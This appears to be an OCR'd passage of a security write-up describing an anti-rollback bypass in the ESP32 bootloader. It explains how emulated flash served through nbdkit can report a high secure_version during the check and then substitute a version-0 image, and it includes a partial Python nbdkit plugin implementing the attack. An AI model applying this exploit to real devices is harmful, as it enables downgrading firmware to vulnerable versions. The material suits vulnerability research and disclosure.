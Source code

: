 ```sh
git clone https://gitlab.com/nbdkit/nbdkit.git
cd nbdkit
autoreconf -i
./configure
make
```

### Triggering the Vulnerability

The `secure_version` for an image is specified at build time by setting the
`CONFIG_BOOTLOADER_APP_SECURE_VERSION` config value. In the application image
binary, this value is stored within the application's
[description](https://docs.espressif.com/projects/esp-idf/en/latest/esp32/api-reference/system/misc_system_api.html#_CPPv4N14esp_app_desc_t14secure_versionE)
which is at an offset of `32` bytes from the start of the partition (following
the image header and a segment header). The attack works by setting this value
to a version higher than the secure version indicated in the anti-rollback
eFuse for the anti-rollback checks. After the anti-rollback checks are
complete, this value does not matter and the entire image can be replaced with
an older version of the application.

The following nbdkit Python plugin implements the attack. The 6th read request
for the application image (at `0x20000`) was determined to be the request which
loads the image for booting. Before this request, the application's description
is set to have a `secure_version` of `10` so that anti-rollback checks will
pass. From the 6th request onwards, the application image is replaced
completely with that of the version 0 image.

```py
import sys, os, io
import nbdkit

sys.path.append(os.path.join(os.path.dirname(__file__), './'))
from esploit_utils import *
import esploit_utils as esp_consts

required_config_keys = {
    'BOOTLOADER_IMAGE': 'file',
    'HELLO_WORLD_VER0_IMAGE': 'file'
}

FLASH_DATA = bytearray(0x100000 * 8)
PARTITION_TABLE = gen_partition_table([
    (esp_consts.PART_TYPE_DATA, esp_consts.PART_SUBTYPE_DATA_OTA, 0x15000, 0x2000, b'otadata'),
    (esp_consts.PART_TYPE_APP, esp_consts.PART_SUBTYPE_OTA_FLAG | 0x0, 0x20000, 0x100000, b'ota_0'),
    (esp_consts.PART_TYPE_APP, esp_consts.PART_SUBTYPE_OTA_FLAG | 0x1, 0x120000, 0x100000, b'ota_1'),
])
OTA_DATA  = gen_ota_select_entry(1, b'\xff' * 20, esp_consts.ESP_OTA_IMG_VALID)
OTA_DATA += gen_ota_select_entry(2, b'\xff' * 20, esp_consts.ESP_OTA_IMG_INVALID)

# ========== nbdkit boilerplate ==========
API_VERSION = 2

for k in required_config_keys:
    globals()[k] = None

def config(key, value):
    if key in required_config_keys:
        if required_config_keys[key] == 'file':
            globals()[key] = __builtins__.open(os.path.abspath(value), 'rb').read()
        else:
```